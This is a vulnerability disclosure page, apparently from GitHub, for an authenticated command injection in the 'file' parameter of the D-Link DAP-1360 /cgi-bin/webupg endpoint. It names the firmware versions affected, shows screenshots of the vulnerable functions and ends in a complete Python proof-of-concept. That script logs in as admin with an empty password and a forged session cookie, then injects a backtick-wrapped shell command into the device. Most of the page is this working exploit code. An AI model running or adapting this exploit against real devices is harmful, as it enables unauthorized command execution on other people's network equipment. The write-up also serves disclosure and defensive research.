 # D-Link DAP-1360 Authorization Remote Command Execution
An authorization command injection vulnerability about DAP-1360

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DAP-1360(F1): <=v6.10
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DAP/dap1360/Firmware/Hardware%20Version%20F/
## The detail of vulnerability
In the "webupg" binary, because of the lack of parameter verification, attackers can use "file" parameters to execute arbitrary system commands after obtaining authorization.

#### Vulnerability trigger function
![image](https://github.com/tgp-top/DAP-1360/blob/4f10977bb7356d1393fefcba24ca438be95248b2/%E5%9B%BE%E7%89%87/5.png)


`UPGCGI_CreateDir`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/1.png)

`UPGCGI_Delete`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/2.png)

`UPGCGI_ModifyMac`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/3.png)

`Burpsuite intercept`
![image](https://github.com/tgp-top/DAP-1360/blob/220154515d7b765ecc8daffd6c990ba45df4735f/%E5%9B%BE%E7%89%87/4.png)

## POC
<sup> 




    #!/usr/bin/python
    # -*- coding: utf-8 -*-

    import requests, urllib3, sys, re
    import base64

    from urllib3.exceptions import ConnectTimeoutError
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    from urllib.parse import urlencode
    import os
    import telnetlib

    proxy = {
            "http": "http://127.0.0.1:8080"
        }
    def login(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      print (ipaddr)
      post_data = {
          "getpage": "html/index.html",
          "errorpage": "html/main.html",
          "var:menu": "setup",
        "var:page": "wizard",
        "var:login": "true",
        "obj-action": "auth",
        ":username": "admin",
        ":password": "",
        ":action": "login",
        ":sessionid": "3f412f91"
      }
      headers1 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "http://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "http://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      headers2 = {
          "Host": phost,
          "Content-Type": "application/x-www-form-urlencoded",
          "Referer": "https://" + phost + "/cgi-bin/webproc",
          "Connection": "close",
          "Origin": "https://" + phost,
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
      }
      try:
        url1 = 'http://' + phost + '/cgi-bin/webproc'
        r1 = requests.post(url1, data=post_data, headers=headers1, allow_redirects=False,proxies=proxy, timeout=10)
        if r1.status_code==302:
          print ("Login success!")
        elif r1.text=="":
          exit(0)
      except Exception:
        try:
          url2 = 'https://' + phost + '/cgi-bin/webproc'
          r2 = requests.post(url2, data=post_data, headers=headers2,verify=False,allow_redirects=False,proxies=proxy,timeout=10)
          if r2.status_code==302:
            print ("Login success!")
          elif r2.text=="":
            exit(0)
        except Exception:
          print("ConnectTimeout")
          exit(0)


    def execCmd(phost):
      ipaddr=str(re.findall(r"(.+?):", phost))
      if len(ipaddr)==2:
        ipaddr=phost
      payload = "`busybox`"
      post_data = {
          "name": "createdir", 
        "file":  payload 
      }
      headers = {
            "Host": phost,
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://" + phost,
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36",
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
        "Referer": "http://" + phost + "/cgi-bin/webupg",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
          "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=45.240.248.137; langmanulset=yes; sys_UserName=admin; language=en_us; expires=Mon, 31-Jan-2050 16:00:00 GMT",
        "Connection": "close"
                    }
      url = "http://" + phost + "/cgi-bin/webupg"
      r = requests.post(url, data=post_data, headers=headers,allow_redirects=False, proxies=proxy)
      string = r.status_code
      print (r.headers)


    def main():
      if (len(sys.argv) != 2):
        print("[*] Usage: ruckus151021.py <RHOST>")
        print("[*] <RHOST> -> Target IP")
        print("[*] Example: python {} 192.168.2.1")
        exit(0)

      phost = sys.argv[1]
      login(phost)
      execCmd(phost)

    if __name__ == "__main__":
        main()



</sup>


## Demo
[![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://www.youtube.com/watch?v=4maJK6R3n8I)


  
  
  
